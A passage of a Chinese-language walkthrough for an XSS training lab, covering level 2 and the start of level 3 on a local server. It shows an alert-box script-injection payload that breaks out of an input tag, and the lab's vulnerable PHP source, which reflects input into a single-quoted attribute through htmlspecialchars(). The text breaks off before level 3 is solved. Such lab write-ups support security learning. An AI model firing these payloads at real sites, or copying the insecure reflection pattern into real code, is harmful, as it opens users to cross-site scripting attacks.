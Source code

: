 发现是把URL中的keyword参数的值进行了编码，这是使用了一个过滤函数htmlspecialchars()将预定义的字符转换成HTML实体，但是并未对input标签内的test值进行编码，那么我们可以对这个标签构造闭合，payload为：

```
"><script>alert(/xss/)</script>
```

## Level 3:

这次我们在搜索框输入xss，首先判断服务器将我们输入的内容放在代码的哪个位置，然后尝试闭合绕过

```
<title>欢迎来到level3</title>
</head>
<body>
<h1 align=center>欢迎来到level3</h1>
<h2 align=center>没有找到和xss相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='xss'>
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level3.png></center>
<h3 align=center>payload的长度:3</h3></body>
</html>
```

可以看到有两处我们所搜索的xss字符串

而且发现URL也改变啦

```
http://127.0.0.1/xss/level3.php?keyword=xss&submit=%E6%90%9C%E7%B4%A2
```

试了好几个payload都没有成功，然后没办法，开始看代码

发现有一段PHP代码

```
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```

其中涉及到htmlspecialchars() 函数

在网上查了查这个函数，他是把预定义的字符转换为 HTML 实体。

```

Character	HTML Entity	Notes
&	          &amp;	 
"	          &quot;	  Depending on how [quote_style] is set
'	          &#039	      Depending on how [quote_style] is set
>	          &gt;	 
<	          &lt;	 
```
